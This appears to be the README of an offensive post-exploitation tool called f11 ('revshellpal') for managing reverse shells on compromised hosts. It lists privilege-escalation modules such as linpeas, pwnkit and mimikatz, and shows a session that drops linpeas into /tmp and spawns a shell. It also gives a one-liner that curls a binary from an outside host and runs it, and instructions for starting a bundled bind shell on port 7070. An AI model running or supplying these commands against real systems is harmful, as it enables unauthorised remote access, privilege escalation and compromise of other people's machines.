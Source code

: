 # f11
*revshellpal*

### TODO - Modules to support

- linpeas (other peas?)
  - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
- pwnkit
  - https://github.com/ly4k/PwnKit
- mimikatz (windows)
  - https://github.com/ParrotSec/mimikatz
- SUID/SUDO/CAP/
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid


### Other modules?
- https://github.com/mzet-/linux-exploit-suggester
- https://github.com/diego-treitos/linux-smart-enumeration
- https://github.com/linted/linuxprivchecker
- custom?
  - https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid


Command ideas ...

```
💀 Ӻ11> linpeas
/tmp/.f11/linpeas.sh - 100.00% (0.74 MB) of total size: 0.74 MB
💀 Ӻ11> workdir
Command not found: 'workdir'
💀 Ӻ11> help
Command not found: 'help'
💀 Ӻ11> commands
Command not found: 'commands'
💀 Ӻ11> plugins
Command not found: 'plugins'
💀 Ӻ11> download
Command not found: 'download'
💀 Ӻ11> upload
Command not found: 'upload'
💀 Ӻ11> shell
charlie@galactica:/tmp$ exit

💀 Ӻ11> 
```

### Oneliner

```bash
rm /tmp/f11; curl -sL https://f11snipe.sh/f11.xz -o /tmp/f11.xz && xz -d /tmp/f11.xz && chmod +x /tmp/f11 && /tmp/f11
```


### Run included standalone bind shell

```bash
# Extract archive
xz -d f11-bind.xz

# Allow execute
chmod +x f11-bind

# Run rev bind shell (port 7070)
./f11-bind
```

### Build from source

```bash
# Run all build steps
npm install
npm run ci
```


#### Individual build steps
```bash
# Install npm packages
npm install

# Build TypeScript
npm build

# Compile
npm run compile

# Compress
npm run compress
```
